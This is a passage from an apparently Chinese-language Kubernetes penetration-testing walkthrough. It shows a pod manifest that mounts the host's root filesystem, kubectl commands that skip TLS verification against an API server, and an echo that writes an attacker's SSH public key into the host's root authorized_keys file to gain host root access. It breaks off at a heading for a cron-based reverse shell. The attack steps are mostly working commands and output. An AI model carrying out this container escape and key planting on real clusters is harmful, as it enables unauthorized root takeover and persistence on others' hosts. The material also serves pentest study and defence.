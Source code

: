 base64 解码，即可使用 base64 解码后的 Token 登录 K8s 的 dashboard。

### 获取宿主机权限

#### 创建 pod

创建名为 nginx-deployment 的 pod，将宿主机的目录挂载到 /mnt 目录下。

新建 test.yaml 文件，内容如下：

```
apiVersion: v1
kind: Pod
metadata:
  name: nginx-deployment
spec:
  containers:
  - image: nginx:1.8
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test
  volumes:
  - name: test
    hostPath:
      path: /
```

创建 pod 并查看运行情况：

```
kubectl --insecure-skip-tls-verify -s https://your-ip:6443/ apply -f test.yaml
-----
Please enter Username: test
Please enter Password: pod/nginx-deployment created
```

```
kubectl --insecure-skip-tls-verify -s https://your-ip:6443/ get pods
-----
Please enter Username: test
Please enter Password: NAME                                READY   STATUS    RESTARTS   AGE
nginx-deployment                    1/1     Running   0          12s
```

#### 写入 ssh 公钥

向 `/mnt/root/.ssh/authorized_keys` 写入公钥，即可获取宿主机 ssh 权限：

```
kubectl --insecure-skip-tls-verify -s https://your-ip:6443/ exec -it nginx-deployment /bin/bash
-----
root@nginx-deployment:/# echo "<YOUR_ID_RSA.PUB>" > /mnt/root/.ssh/authorized_keys
```

#### 定时任务反弹 shell
